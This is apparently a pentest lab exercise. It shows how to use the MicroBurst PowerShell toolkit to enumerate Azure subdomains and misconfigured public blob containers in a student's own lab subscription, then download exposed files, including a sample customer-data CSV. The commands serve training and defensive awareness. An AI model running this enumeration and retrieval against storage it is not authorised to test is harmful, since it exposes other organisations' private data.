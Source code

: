 
### Run from Pentest VM
1. Within the RDP session of your pentest VM, open a PowerShell console as an administrator

2. Import the MicroBurst module into your PowerShell session with the following commands:
* If you receive some error messages about AzureRm, please ignore (AzureRm is deprecated and will be removed in a future release)
```
cd "$env:SystemDrive\PentestTools\Azure\Attack\MicroBurst"
Import-Module .\MicroBurst.psm1
```

3. Use the Invoke-EnumerateAzureSubDomains function to identify potential targets that have a base name of **`azpentestenvXX`** (where XX is your student number): 
```
Invoke-EnumerateAzureSubDomains -Base azpentestenvXX
```

4. As we can see in this example, the resulting output table indicates that there are Azure platform service instances with the **`azpentestenvXX`** resource name. These targets have been pre-provisioned for you to use in this lab. They are hosted in your designated Azure subscription.
* Be careful not to target any other Azure resources that are not in your designated Azure subscription or in a subscription that does not belong to you!

### Identifying misconfigured blob containers using MicroBurst
* Configuration-related vulnerabilities can cause serious problems in Azure environments.
* In this exercise, we will use the **`Invoke-EnumerateAzureBlobs`** script from **`MicroBurst`** to access data in a misconfigured Azure Blob storage service. 
  * **Task 1**: Use the **`Invoke-EnumerateAzureBlobs`** MicroBurst module to anonymously enumerate storage account containers using the azurepentesting base name and the built-in permutation list.
  * **Task 2**: Define a custom container list and use it to enumerate further containers.

1. Use the **`Invoke-EnumerateAzureBlobs`** function with a base word of  **`azpentestenvXX`** (where XX is your student number). 
   * MicroBurst will identify public storage accounts with containers that have the container access level configured:
```
Invoke-EnumerateAzureBlobs -Base azpentestenvXX
```

2. We can then download and read the contents of the objects directly using the following commands:
```
Invoke-WebRequest -Uri "https://azpentestenvXX.blob.core.windows.net/public/README.md" -OutFile "README.md"

Get-Content .\README.md

Invoke-WebRequest -Uri "https://azpentestenvXX.blob.core.windows.net/private/sensitive_customer_private_information.csv" -OutFile "sensitive_customer_private_information.csv"

Get-Content .\sensitive_customer_private_information.csv
```

3. In the command we used in **`Step 2`**, MicroBurst enumerated the storage account using common container names such as private and public. Review the permutable list of containers that MicroBurst uses by default. We can modify this list to include additional container names that we want to attempt.
```
Get-Content .\Misc\permutations.txt
```
* Unless otherwise specified in the command, the names used for the container name guesses will come from the permutations.txt file in the MicroBurst repository.

4. MicroBurst also allows us to specify custom container names using the Folders parameter. Create a custom container name list and open it with notepad using the following commands:
```
New-Item -Path . -Name "customcontainerlist.txt" -ItemType "file"

notepad .\customcontainerlist.txt
```

5. Add the following names to the Notepad file. Save the file and close it:
```
scripts
templates
archive
archived
2020
2019
2018
```

6. Back in the PowerShell console, use the following command to enumerate potential public containers using any of the names in our custom name list:
```
Invoke-EnumerateAzureBlobs -Base azpentestenvXX -Folders .\customcontainerlist.txt
```

7. You can see that we have found additional public containers and objects that we did not find earlier.

